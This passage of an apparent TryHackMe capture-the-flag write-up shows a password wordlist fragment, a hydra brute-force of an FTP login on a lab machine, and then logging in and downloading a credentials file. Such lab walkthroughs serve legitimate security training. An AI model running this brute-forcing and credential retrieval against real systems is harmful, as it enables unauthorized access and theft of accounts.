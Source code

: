 ```
Vi^Qf+u%0*q_S
1Fvdp&bNl3#&l
zLH%Ot0Bw&c%9
```

* Let's save the password to a file called `ftp_passwords.txt`.
* Now using `hydra` we can brute force the FTP login.

```
$ hydra -l ftpuser -P /home/kunal/tryhackme/yearoftherabbit/ftp_passwords.txt ftp://10.10.181.61 -t 4
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-06 23:12:11
[DATA] max 4 tasks per 1 server, overall 4 tasks, 82 login tries (l:1/p:82), ~21 tries per task
[DATA] attacking ftp://10.10.181.61:21/
[21][ftp] host: 10.10.181.61   login: ftpuser   password: 5iez1wGXKfPKQ
[STATUS] 82.00 tries/min, 82 tries in 00:01h, 1 to do in 00:01h, 3 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-06 23:13:12
```

* So the password for `ftpuser` is `5iez1wGXKfPKQ`.
* Let's login using those credentials.

```
$ ftp ftpuser@10.10.181.61
Connected to 10.10.181.61.
220 (vsFTPd 3.0.2)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

* Let's look around for important files.

```
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             758 Jan 23  2020 Eli's_Creds.txt
226 Directory send OK.
```

* We can download the `Eli's_Creds.txt` file to our machine using the `get` command.

```
ftp> get Eli's_Creds.txt
local: Eli's_Creds.txt remote: Eli's_Creds.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for Eli's_Creds.txt (758 bytes).
100% |***********************************************************************************************************************************************************************************************|   758        0.74 KiB/s    --:-- ETA
226 Transfer complete.
758 bytes received in 00:00 (2.40 KiB/s)
```
